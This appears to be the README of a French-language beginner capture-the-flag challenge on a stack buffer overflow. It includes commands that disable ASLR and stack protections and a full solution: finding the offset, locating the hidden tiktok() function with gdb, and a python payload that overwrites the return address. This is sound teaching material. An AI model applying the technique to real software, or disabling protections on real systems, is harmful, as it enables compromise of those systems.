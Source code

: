 # Buffer Overflow

## Description

Bienvenue dans ce CTF dédié à l'exploitation d'une vulnérabilité de type **buffer overflow** ! L'objectif de ce challenge est de comprendre comment un dépassement de tampon peut permettre à un attaquant de prendre le contrôle du flux d'exécution d'un programme pour accéder à une fonction secrète.

## Objectif

Votre mission est d'exploiter une vulnérabilité dans le programme pour déclencher la fonction cachée `tiktok()` et obtenir le flag.

## Fichiers fournis

- `main.c` : Le code source du programme vulnérable.
- `main` : Le binaire compilé du programme.
- `README.md` : Ce fichier.

## Instructions

1. **Compiler le programme (si nécessaire)** :
    Si vous souhaitez recompiler le programme, utilisez la commande suivante :

    ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    gcc -o main main.c -fno-stack-protector -z execstack -no-pie
    ```

    Les options utilisées :
    - `-fno-stack-protector` : Désactive la protection de la pile.
    - `-z execstack` : Rend la pile exécutable (utile pour des exploits plus avancés).
    - `-no-pie` : Désactive la randomisation des adresses (ASLR), rendant l'exploitation plus simple.

2. **Analyser la vulnérabilité** :
    Le programme contient une fonction vulnérable à un buffer overflow qui peut être exploitée pour rediriger l'exécution vers une fonction secrète.

3. **Lancer le programme** :
    exemple:
    ```bash
    ./main
    ```
    ou:
    ```bash
    python3 -c 'print("A" * 24)' | ./main
    ```

4. **Obtenir le flag** :
    Si votre exploit réussit, vous verrez apparaître le flag.

## Conseils

- Le programme utilise un petit buffer (`char buffer[16]`), ce qui rend l'overflow facile à atteindre.
- L'adresse de la fonction `tiktok()` est fournie directement pour simplifier le challenge.
- Assurez-vous de bien respecter l'ordre Little Endian lors de la construction du payload.

## Solution

Pour ceux qui ont besoin d’un coup de pouce, voici les étapes pour exploiter la vulnérabilité :

1. Identifiez la taille du buffer et l'offset nécessaire pour atteindre l'adresse de retour:
  ```bash
  python3 -c 'print("A" * 24)' | ./main
  ```
  augmenter la taille pour trouver quel est le nombre qui provoquera un segmentation fault
2. Trouver l'adresse de la fonction `tiktok()` avec gdb:
```bash
 gdb ./main
 info functions tiktok
```
3. créer le payload avec le nombre qui a permis de faire un segmentation fault + l'adresse en little endian(en gros on inverse on lit de droite a gauche):
```bash
# si votre adresse c'est 0x0000000000401146 et que l'offset = 24
python3 -c 'print("A" * 24 + "\x46\x11\x40\x00\x00\x00\x00\x00")' | ./main
```
4. Exécutez le payload pour obtenir le flzag.